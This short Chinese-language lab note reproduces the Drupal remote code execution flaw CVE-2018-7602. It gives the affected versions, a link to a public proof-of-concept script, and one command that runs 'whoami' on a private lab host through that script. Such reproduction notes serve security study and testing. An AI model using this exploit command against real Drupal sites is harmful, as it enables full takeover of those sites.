 # Drupal 远程代码执行漏洞（CVE-2018-7602）

> 漏洞说明

Drupal是Drupal社区的一套使用PHP语言开发的开源内容管理系统。 此漏洞源于对编号为CVE-2018-7600的漏洞修复不完全，导致补丁被绕过，攻击者可以利用Drupal网站漏洞，需要登录且有删除权限后触发执行恶意代码，导致网站被完全控制。



> 前提条件

Drupal < 7.58
Drupal < 8.3.9
Drupal < 8.4.6
Drupal < 8.5.1



> 利用工具

[POC](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7602.py)



> 漏洞复现

启动环境，直接利用POC验证漏洞

```shell
python3 CVE-2018-7602.py -c whoami user pass http://192.168.40.77:8081/
```

![image-20230101235717814](../img/Drupal_CVE-2018-7602/image-20230101235717814.png)